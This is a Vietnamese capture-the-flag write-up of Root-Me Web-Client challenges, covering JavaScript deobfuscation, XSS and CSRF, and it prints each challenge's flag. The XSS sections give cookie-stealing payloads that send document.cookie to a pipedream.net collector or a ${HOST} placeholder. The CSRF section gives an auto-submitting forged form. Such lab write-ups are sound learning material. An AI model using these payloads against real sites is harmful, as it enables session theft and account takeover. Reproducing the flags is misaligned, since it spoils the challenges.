

Trong lúc tìm site để chơi thì đọc qua nhiều blog thì mình quyết định chơi site này.. Cũng được nhiều bậc tiền bối chơi và bảo có độ fame cao [root-me](https://www.root-me.org/) !

> #### Category:
>
> - Web Client
> - Web Server
>
> Let's go to the same dark road, **bruh** !

# HTML - disabled buttons

[Link](https://www.root-me.org/en/Challenges/Web-Client/HTML-disabled-buttons)

<details>
    <summary>Challenge Description</summary>
    This form is disabled and can not be used. It’s up to you to find a way to use it.
</details>

Khi bật cửa sổ lên sẽ thấy thẻ input và nút submit bị vô hiệu hóa bởi thuộc tính `disable`.


Vì vậy chỉ cần xóa đi và submit `admin` xem có show flag hay không?


Chal này mục đích để hiểu được thuộc tính của thẻ và cách thức `turn on`.


***

<details>
  <summary>FLAG</summary>
  
  HTMLCantStopYou
</details>
 
***

# Javascript - Authentication
[Link](https://www.root-me.org/en/Challenges/Web-Client/Javascript-Authentication)
<details>
  <summary>Challenge Description</summary>
  None !
</details>

Chall yêu cầu ta xác thực đúng username và password thì mới show ra flag.


Cứ F12 view-source xem và nhận ra có file `login.js` mở ra sẽ thấy id và pwd và nhập vào để nhận thông báo và flag chính là pwd.


***

<details>
  <summary>FLAG</summary>
  
  sh.org
</details>
 
***

# Javascript - Source
[Link](https://www.root-me.org/en/Challenges/Web-Client/Javascript-Source)
<details>
  <summary>Challenge Description</summary>
  You know javascript ?
</details>

Chall này sẽ bắt ta điền password vào prompt thì view-source như chall trước cũng sẽ thấy flag!


***

<details>
  <summary>FLAG</summary>
  
  123456azerty
</details>
 
***

# Javascript - Authentication 2
[Link](https://www.root-me.org/en/Challenges/Web-Client/Javascript-Authentication-2)
<details>
  <summary>Challenge Description</summary>
  Yes folks, Javascript is damn easy :)
</details>

Về phần chall này thì yêu cầu login và check từng id và pwd mới show ra flag.


Tiếp tục view-source xem có gì không, và nhận thấy file `login.js` lúc này sẽ show đoạn code xử lý form trên.


Như trong hình thì biến `TheLists` sẽ cắt bởi kí tự `:` đồng thời gán vào 2 biến username = `GOD` và password = `HIDDEN` vì vậy mình lấy 2 params này check form là sẽ show flag!

***

<details>
  <summary>FLAG</summary>
  
  HIDDEN
</details>

***

# Javascript - Obfuscation 1
[Link](https://www.root-me.org/en/Challenges/Web-Client/Javascript-Obfuscation-1)
<details>
  <summary>Challenge Description</summary>
  None!
</details>

Obfuscation là kỹ thuật che giấu code nhằm mục đích minify code, làm cho đoạn code trở nên khó đọc, khi view-source ta sẽ thấy biến obfuscator vì vậy chỉ cần unescape biến đấy là sẽ render ra flag như hình.


***

<details>
  <summary>FLAG</summary>
  
  cpasbiendurpassword
</details>

***

# Javascript - Obfuscation 2
[Link](https://www.root-me.org/en/Challenges/Web-Client/Javascript-Obfuscation-2)
<details>
  <summary>Challenge Description</summary>
  None!
</details>

Ta để ý khi view-source biến `pass` tiếp tục bị encode lúc này phải decode nhiều lần để lấy được chuỗi cần tìm.


Sau khi decode URL vài lần ta thu được:
```javascript
String.fromCharCode%28104%2C68%2C117%2C102%2C106%2C100%2C107%2C105%2C49%2C53%2C54%29
```
Ta chỉ cần unescape lại sẽ thu được pass lúc chưa obfuscator !


***

<details>
  <summary>FLAG</summary>
  
  hDufjdki156
</details>

***

# Javascript - Native code
[Link](https://www.root-me.org/en/Challenges/Web-Client/Javascript-Native-code)
<details>
  <summary>Challenge Description</summary>
  None!
</details>

Về chal này thì khi view-source ta nhận thấy đoạn script Obfuscation cực kì khó đọc...


 vẫn có nhiều cách để exploit deob này nhưng để cho dễ thì có thể cài extension `Javascript DeObfuscation` còn về phần mình sẽ đặt breakpoint trong `DevTools` và render ra code native của JS.


Và breakpoint nhảy qua từng () và render ra 1 func anonymous 


***

<details>
  <summary>FLAG</summary>
  
  toto123lol
</details>

***

# Javascript - Obfuscation 3
[Link](https://www.root-me.org/en/Challenges/Web-Client/Javascript-Obfuscation-3)
<details>
  <summary>Challenge Description</summary>
  Useful or Useless that is the question...
</details>

Khi nhập pwd nào cũng luôn báo sai, nên view-source thì thấy code như hình bên dưới..


Thật ra không liên quan gì đến hàm `dechiffre()`, nên mình thử convert hex sang ascii 
>"\x35\x35\x2c\x35\x36\x2c\x35\x34\x2c\x37\x39\x2c\x31\x31\x35\x2c\x36\x39\x2c\x31\x31\x34\x2c\x31\x31\x36\x2c\x31\x30\x37\x2c\x34\x39\x2c\x35\x30"

>55,56,54,79,115,69,114,116,107,49,50

Sau đó mình chỉ cần format lại nhận được pwd.


***

<details>
  <summary>FLAG</summary>
  
  786OsErtk12
</details>

***

# XSS - Stored 1
[Link](https://www.root-me.org/en/Challenges/Web-Client/XSS-Stored-1)
<details>
  <summary>Challenge Description</summary>
  Steal the administrator session cookie and use it to validate this chall.
</details>

Về chall này thì chỉ cần bắt được cookie của Bot-Admin respone là sẽ thấy được flag.
Bạn chỉ cần tạo 1 site để nhận request đó ở đây mình tạo ở requestbin..

```javascript
<script>document.location='https://36804c4c529d08946b649444352335c8.m.pipedream.net
?c='+document.cookie</script>
```

Một lúc sau sẽ bắt được request kèm flag


***

<details>
  <summary>FLAG</summary>
  
  NkI9qe4cdLIO2P7MIsWS8ofD6
</details>

***

# CSRF - 0 protection
[Link](https://www.root-me.org/en/Challenges/Web-Client/CSRF-0-protection)
<details>
  <summary>Challenge Description</summary>
  Activate your account to access intranet.
</details>

Chall này sau khi tạo 1 account và login vào thì option `Private` không được accept vì ở `Profile` status không được bật vì bị `disabled`


Vì thế mình sẽ lừa admin bằng thuộc tính `checked` trong form để admin confirm trong option `Contact` khi ta upload lên server.


```html
<form id="shinta" method="post" enctype="multipart/form-data" action="http://challenge01.root-me.org/web-client/ch22/?action=profile">
	<input type="text" name="username" value="hello">
	<input type="checkbox" name="status" checked>
	<button type="submit">Submit</button>
</form>
<script>document.getElementById("shinta").submit()</script>
```

Sau đó đợi 1-2p rồi truy cập lại `Private` lúc này sẽ show flag !


***

<details>
  <summary>FLAG</summary>
  
  Csrf_Fr33style-L3v3l1!
</details>

***

# XSS - Reflected
[Link](https://www.root-me.org/en/Challenges/Web-Client/XSS-Reflected)
<details>
  <summary>Challenge Description</summary>
  Find a way to steal the administrator’s cookie.
  Be careful, this administrator is aware of info security and he does not click on strange links that he could receive.
</details>

Sau một hồi ngó Đông ngó Tây và chèn XSS thì nhận ra trong form `Contact us` chính là nơi mình cảm thấy sẽ hint được flag :)))

Có vẻ filter vài kí tự đặc biệt `+ < > " ` riêng kí tự ' %27 vẫn chưa và khi mình chèn XSS dựa vào thuộc tính onmousemove, onmouseover, onmouseenter, onmouseout lúc này đã được tiêm vào.


Như chall `XSS - Stored` mình cũng sẽ bắt request để nhận được cookie trên từ Bot-Ad bằng những payloads sau:


>hi' onmouseover='document.location=%22${HOST}?%22.concat(document.cookie)
>hi' onmouseover='document.write(%22%22))
>hi' onmouseover='setTimeout(function()%7Bdocument.location=%22${HOST}?%22.concat(document.cookie);%7D,1)


Sau đó có thể nhấn `REPORT TO THE ADMINSTRATOR` hoặc hơ chuột vào link sau đó 1-2p requestbin sẽ bắt được response



***

<details>
  <summary>FLAG</summary>
  
  r3fL3ct3D_XsS_fTw
</details>

***

Về phần `Web-Client` thì mình chỉ dừng lại ở mức này, mình sẽ write-up thêm về `Web-Server` vào ngày rảnh nào đó.. cảm ơn mọi người đã đọc. 

Cheering ...


